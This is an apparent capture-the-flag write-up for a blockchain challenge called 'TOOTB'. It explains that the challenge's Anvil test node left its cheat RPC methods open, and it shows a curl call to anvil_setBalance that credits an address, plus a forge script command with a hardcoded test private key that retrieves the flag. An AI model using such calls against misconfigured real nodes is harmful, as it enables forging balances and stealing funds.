 # TOOTB

## Solution

The solution is at the end quite simple. The fresh junior dev miss the fact that network made for testing, like anvil, had specifics rpc commands. These specifics rpc commands are useful to set the test network in a special state.

Usually, these rpc commands are blocked to prevent this type of issue in CTF, but not everytime, maybe you can check next time, you could be surprise.

Here you could use the commands : 

`curl <RPC_URL> anvil_setBalance <addr> <value>`

This is curl example : 

`curl http://localhost:8545 -X POST -H "Content-Type: application/json" --data '{"method":"anvil_setBalance","params":["0xE7616f8F030A611be722A7787Ce183FD78B941C9", "0x21E27C1806E59A40000"],"id":1,"jsonrpc":"2.0"}'`

## Get the flag

In the `forge` command, the `--slow` parameter makes sure each transaction has been successfully executed before proceeding to another one

*Make sure you change the address of the challenge in `script/Solve.s.sol`*

```sh
TARGET_IP='127.0.0.1:8000' # to replace
PRIVATE_KEY='0x6715d324d14e0565ab02a575fa5f74540719ba065a610cba6497cdbf22cd5cdb'
forge script script/Solve.s.sol --tc 'Solve' --broadcast --private-key $PRIVATE_KEY --rpc-url http://${TARGET_IP}/rpc --skip-simulation --slow
curl -s "http://${TARGET_IP}/flag"
```
